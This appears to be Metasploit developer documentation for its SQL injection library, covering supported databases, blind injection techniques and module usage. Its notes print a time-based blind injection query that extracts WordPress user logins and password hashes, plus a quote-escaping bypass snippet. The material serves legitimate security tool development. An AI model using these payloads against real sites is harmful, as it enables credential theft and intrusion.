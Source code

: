 SQL Injection library support was added in 2020 by @red0xff during the Google Summer of Code.

# Supported Databases
* MySQL/MariaDB ([#13596](https://github.com/rapid7/metasploit-framework/pull/13596))
* SQLite ([#13847](https://github.com/rapid7/metasploit-framework/pull/13847))
* PostgreSQL ([#14067](https://github.com/rapid7/metasploit-framework/pull/14067))

# Supported Techniques
* Boolean Based Blind
* Time Based Blind

|                     | MySQL/MariaDB | SQLite | Postgres |
|---------------------|---------------|--------|----------|
| Boolean Based Blind | X             | X      | X        |
| Time Based Blind    | X             | X      | X        |
|                     |               |        |          |

## How to use in a module

You'll need to start off by including the library.

```
include Msf::Exploit::SQLi
```

Next we create our SQLi object:

```
sqli = create_sqli(dbms: MySQLi::Common, opts: sqli_opts) do |payload|
  # Here is where we write in what to do each request using #{payload} as the spot to inject
end
```

`dbms` can be set to either `Common` if the DB isn't know, or one of the other databases and methods if it is known ahead of time such as `SQLitei::BooleanBasedBlind`
`sqli_opts` is a hash containing all of the options: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/sqli/common.rb#L12

## Notes

### run_sql

`run_sql` can only return 1 column.

### magic_quotes bypass

**CAN ONLY RETURN 1 COLUMN AT A TIME**

At times, PHP will use `magic_quotes` to escape `'` and `"`.  This may cause problems in the SQL injection. You'll know its a problem, because you'll see log items like this:

```
[Sat Jan 02 14:11:53.103512 2021] [php7:notice] [pid 55607] [client 2.2.2.2:36475] WordPress database error You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\\';\\',ifnull(user_login,\\'\\'),ifnull(user_pass,\\'\\')) as binary) mMJZrCxQ from w' at line 1 for query SELECT * FROM wp_chopslider3 WHERE chopslider_id =938076279 OR 1=1 AND if(length(cast((select group_concat(mMJZrCxQ) from (select cast(concat_ws(\\';\\',ifnull(user_login,\\'\\'),ifnull(user_pass,\\'\\')) as binary) mMJZrCxQ from wp_users limit 1) fWLwo) as binary))&1<>0,sleep(1.0),0)
```

However, the query was similar to this:

```
[*] {SQLi} Executing (select group_concat(qcO) from (select cast(concat_ws(';',to_base64(ifnull(user_login,'')),to_base64(ifnull(user_pass,''))) as binary) qcO from wp_users limit 1) dTWyw)
```

The query was sent without the escapes, however they were added.  The solution is to avoid quotes at all.  To do this, we will need to use  the `hex` encoder

```
      if payload.include?("''")
        payload.gsub!("''", 'hex(0x00)')
      end
```

This will convert all instances of `''` which were previously being escaped to `\'\'` to `hex(0x00)` which does not get altered.